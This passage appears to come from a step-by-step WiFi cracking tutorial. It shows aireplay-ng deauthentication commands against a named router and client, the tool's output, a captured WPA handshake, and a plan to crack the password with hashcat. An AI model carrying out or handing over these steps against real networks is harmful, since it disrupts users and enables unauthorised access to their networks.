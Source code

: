 `aireplay-ng -a 98:42:65:D2:8E:47 -0 0 wlan0mon`

It's better to attack a specific device if you can. You can specify one with -c like this

`aireplay-ng -a 98:42:65:D2:8E:47 -c 6E:EB:E6:7B:9B:BB -0 0 wlan0mon`

```plaintext
root@debian:/home/a# aireplay-ng -a 98:42:65:D2:8E:47 -0 0 wlan0mon
08:34:27  Waiting for beacon frame (BSSID: 98:42:65:D2:8E:47) on channel 6
NB: this attack is more effective when targeting
a connected wireless client (-c <clients mac>).
08:34:27  Sending DeAuth (code 7) to broadcast -- BSSID: [98:42:65:D2:8E:47]
08:34:27  Sending DeAuth (code 7) to broadcast -- BSSID: [98:42:65:D2:8E:47]
08:34:28  Sending DeAuth (code 7) to broadcast -- BSSID: [98:42:65:D2:8E:47]
08:34:28  Sending DeAuth (code 7) to broadcast -- BSSID: [98:42:65:D2:8E:47]
08:34:29  Sending DeAuth (code 7) to broadcast -- BSSID: [98:42:65:D2:8E:47]

root@debian:/home/a# aireplay-ng -a 98:42:65:D2:8E:47 -c 6E:EB:E6:7B:9B:BB -0 0 wlan0mon
08:33:49  Waiting for beacon frame (BSSID: 98:42:65:D2:8E:47) on channel 6
08:33:49  Sending 64 directed DeAuth (code 7). STMAC: [6E:EB:E6:7B:9B:BB] [ 0|51 ACKs]
08:33:50  Sending 64 directed DeAuth (code 7). STMAC: [6E:EB:E6:7B:9B:BB] [ 0|64 ACKs]
08:33:51  Sending 64 directed DeAuth (code 7). STMAC: [6E:EB:E6:7B:9B:BB] [ 0|63 ACKs]
08:33:51  Sending 64 directed DeAuth (code 7). STMAC: [6E:EB:E6:7B:9B:BB] [ 0|61 ACKs]
08:33:52  Sending 64 directed DeAuth (code 7). STMAC: [6E:EB:E6:7B:9B:BB] [ 0|61 ACKs]
```

Leave that running and back in the first window you'll see the same interface as before but this time we are watching the top right of the window

```plaintext
 CH  6 ][ Elapsed: 5 mins ][ 2025-01-23 07:50 ][ WPA handshake: 98:42:65:D2:8E:47

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB    ENC  CIPHER  AUTH  ESSID


 98:42:65:D2:8E:47  -58 100     3302      619    0   6  195   WPA2  CCMP    PSK   TALKTALKD28E4A

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   82:2F:2E:B6:06:FE  -48    0 - 1      0        1         TALKTALKD28E4A
 98:42:65:D2:8E:47  1A:0D:68:A3:17:EC  -40    1e- 1      0       38         TALKTALKD28E4A
 98:42:65:D2:8E:47  6E:EB:E6:7B:9B:BB  -58    1e- 1e     0       13  EAPOL  TALKTALKD28E4A

```

At the top right it now says: **WPA handshake: 98:42:65:D2:8E:47**. Under notes it also says EAPOL which means it captured the EAPOL handshake from that device.

The `-w handshake` on the above command makes sure it writes the handshake capture to a file named handshake. The handshake is basically the encrypted WiFi password. We need to convert this and decrypt it to get the actual password. We can use `hashcat` for that so make sure to install it. If we list files in the current directory with `ls -la` we should see a few files

```plaintext
handshake-01.cap
handshake-01.csv
handshake-01.kismet.csv
handshake-01.kismet.netxml
handshake-01.log.csv
```
